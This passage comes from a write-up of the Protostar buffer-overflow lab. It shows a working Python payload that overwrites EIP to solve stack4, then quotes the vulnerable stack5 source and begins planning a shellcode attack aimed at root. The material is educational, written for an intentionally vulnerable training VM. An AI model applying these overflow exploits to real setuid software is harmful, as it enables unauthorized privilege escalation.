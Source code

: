 ``` python 
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
eip = struct.pack("I", 0x80483f4)

print padding + eip
```

We beat the level. ^^

``` shell
user@protostar:~$ python script.py | /opt/protostar/bin/stack4
code flow successfully changed
Segmentation fault
```

## Stack 5

Description:

>Stack5 is a standard buffer overflow, this time introducing shellcode.<br>
>This level is at /opt/protostar/bin/stack5<br><br>
>Hints:<br>
>At this point in time, it might be easier to use someone elses shellcode<br>
>If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
remove the int3s once your shellcode is done.

Source code:

``` c 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

The goal of this level is to get the **root privilege**. But how can we do that? 

Since our program is really short, the only thing we could take advantage is **gets**. So, our logic here is to create a script (including the shellcode) that can overwrite the instruction pointer **eip** right before the **main** function returns, redirecting execution to our shellcode. But which shellcode should I use?

I did a quick check over the program properties by using **file** command:

``` shell
user@protostar:~$ file /opt/protostar/bin/stack5
/opt/protostar/bin/stack5: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, not stripped
```
